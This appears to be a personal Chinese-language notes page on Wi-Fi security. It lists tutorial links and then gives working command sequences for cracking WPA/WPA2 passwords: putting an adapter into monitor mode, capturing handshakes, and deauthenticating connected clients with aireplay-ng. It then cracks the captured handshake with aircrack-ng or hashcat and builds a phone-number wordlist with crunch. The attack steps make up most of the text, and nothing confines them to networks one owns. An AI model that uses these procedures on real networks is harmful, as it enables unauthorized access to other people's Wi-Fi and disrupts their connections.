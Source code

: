 
> “WiFi 安全”

参考：

- [【Aircrack】Kali linux 下使用 Aircrack-ng 对于 wifi 暴力破解的使用教程](https://freeerror.org/d/161-kali-linux-aircrack-ng-wifi)
- [【Aircrack】Kali Linux使用Aircrack破解wifi密码(wpa_wpa2) - 罗道义 - 博客园](https://www.cnblogs.com/daoyi/p/Kali-Linux-shi-yongAircrack-po-jiewifi-mi-ma-wpawp.html)
- [【Aircrack】Kali破解wifi最基础版_运维_河南理工杨轻帆的博客-CSDN博客](https://blog.csdn.net/tangjikede2008/article/details/99758890)
- [【Aircrack】airodump-ng帮助手册翻译 - lim42 - 博客园](https://www.cnblogs.com/lim42/p/6887905.html)
- [【Crunch】Linux下的字典生成工具Crunch，创造自己的专属字典 - FreeBuf互联网安全新媒体平台](https://www.freebuf.com/sectool/170817.html)
- [【Crunch】crunch--字典生成工具 - wpjamer - 博客园](https://www.cnblogs.com/wpjamer/p/9913380.html)
- [【Crunch】crunch生成手机号 发个教程 55G吓人啊 - mljqqh - 博客园](https://www.cnblogs.com/mljqqh/p/10344507.html)
- [【Hashcat】cracking_wpawpa2 [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)
- [【Hashcat】frequently_asked_questions [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=frequently_asked_questions#overview)
- [【Hashcat】hashcat暴力破解密码 _ 忆杰的博客](https://www.joenchen.com/archives/1248)
- [【Hashcat】使用Hashcat跑Wifi密码 _ ohhink](https://ouhaohan8023.github.io/2019/08/22/Artisans/使用Hashcat跑Wifi密码/)
- [【Hashcat】用Hashcat每秒计算1.4亿个密码，破解隔壁WIFI密码 - 方方和圆圆 - 博客园](https://www.cnblogs.com/diligenceday/p/6359661.html)
- [【钓鱼】Hacking any WPA_WPA2 PSK without BruteForce - 简书](https://www.jianshu.com/p/2a19a8e5aee7)
- [隐藏wifi ssid获取 - 简书](https://www.jianshu.com/p/a86ae4ed102d)

## airmon-ng, airodump-ng, aireplay-ng, aircrack-ng 工具的使用

```sh
# 查看支持的网卡
airmon-ng

# 将网卡切换成监听模式
# wlan0 是网卡名称，开启后会在后面加上mon
airmon-ng start wlan0

# 扫描无线列表
airodump-ng wlan0mon

# 查看指定 BSSID 的详情
airodump-ng -d 08:1F:71:xx:xx:xx wlan0mon

# 抓握手包，在这里面包含加密的密码
airodump-ng -c 1 --bssid 08:1F:71:xx:xx:xx -w ~/wifi/ wlan0mon

# 攻击连接上该热点的客户端，让其掉线重连，以获取握手包
aireplay-ng -0 20 -a 08:1F:71:xx:xx:xx -c 04:33:85:xx:xx:xx wlan0mon

# 停止监听模式
airmon-ng stop wlan0mon

# 跑字典获取密码
aircrack-ng -a2 -b 08:1F:71:xx:xx:xx -w ~/baoli/rockyou.txt ~/wifi/*.cap 
```

## 使用 Hashcat 快速跑字典

Hashcat for windows: [hashcat-5.1.0.7z](https://hashcat.net/files/hashcat-5.1.0.7z) [hashcat-utils](https://github.com/hashcat/hashcat-utils/releases)

```
# 转换 cap 为 hccapx
cap2hccapx.exe 01.cap 01.hccapx

# 用 Hashcat 跑字典，支持 GPU 加速，其中指定 session 可以保存日志或进度
hashcat64.exe -m 2500 D:\test\01.hccapx D:\zd\word.txt  --session=whypie0
```

## 使用 Chrunch 生成任意字典

生成手机号，新建一个 `num.txt` 文件，内容为：

```
numeric = [345789]
```

然后让其生成，最后文件非常大，有 `72.6 GB`！：

```
crunch 11 11 -f ./num.txt numeric -t 1@%%%%%%%%% -o allPhones.txt
```
